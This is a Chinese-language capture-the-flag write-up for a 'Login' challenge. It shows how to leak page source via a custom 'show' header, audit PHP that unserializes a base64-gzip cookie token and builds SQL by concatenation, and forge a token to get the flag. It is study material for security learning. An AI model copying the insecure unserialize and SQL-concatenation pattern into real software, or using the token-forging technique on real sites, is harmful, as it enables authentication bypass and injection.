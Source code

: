 # Login
## 题目内容
加油，我看好你
## 思路
点开链接，是一个登录界面：  
![avatar](./picture/Login_1.png)  
随便试了几个账号密码，都不对，然后，查看页面源码，发现了一个注释：  
![avatar](./picture/Login_2.png)  
试试是不是用户名和密码，果然是的，登陆成功：  
![avatar](./picture/Login_3.png)  
但是没有什么有用的信息，查看网页源码，也同样没有有用的信息，用开发者工具看了下网络流量，发现会返回两个文件：  
![avatar](./picture/Login_4.png)  
且分别分析一下，会发现 member.php 的响应包里有个 show：  
![avatar](./picture/Login_5.png)  
这种东西其实不常见，因此用 burp 改一下请求包的头部，把这个 show 改为 1 试试：  
![avatar](./picture/Login_6.png)  
竟然返回了源码：  
![avatar](./picture/Login_7.png)  
整理一下，然后开始审计：  
```php
<?php
include 'common.php';
//数组拼接
$requset = array_merge($_GET, $_POST, $_SESSION, $_COOKIE);
class db{
    public $where;
    function __wakeup() {
        if(!empty($this->where)) {
            $this->select($this->where);
        }
    }

    function select($where) {
        $sql = mysql_query('select * from user where '.$where);
        return @mysql_fetch_array($sql);
    }
}
if(isset($requset['token'])) {
    //重要的一行，对token进行处理
    $login = unserialize(gzuncompress(base64_decode($requset['token'])));
    $db = new db();
    $row = $db->select('user=\''.mysql_real_escape_string($login['user']).'\'');
    //比较login中的user的值，匹配成功就打印flag
    if($login['user'] === 'ichunqiu') {
        echo $flag;
    }else if($row['pass'] !== $login['pass']){
        echo 'unserialize injection!!';
    }else{
        echo "(╯‵□′)╯︵┴─┴ ";
    }
}else{
    header('Location: index.php?error=1');
}
?>
```
构造一个数组 array("user" => "ichunqiu")，并对它进行逆处理：  
```php
<?php
$a = array("user" => "ichunqiu");
$s=base64_encode(gzcompress(serialize($a)));
echo $s;
?>
```
得到如下结果：  
![avatar](./picture/Login_8.png)  
在之前增加了 show: 1 的请求头中，加一个 Cookie，命名为 token，值为上面这行 base64 编码：  
![avatar](./picture/Login_9.png)  
发送过去，就能获得 flag 了：  
![avatar](./picture/Login_10.png)  
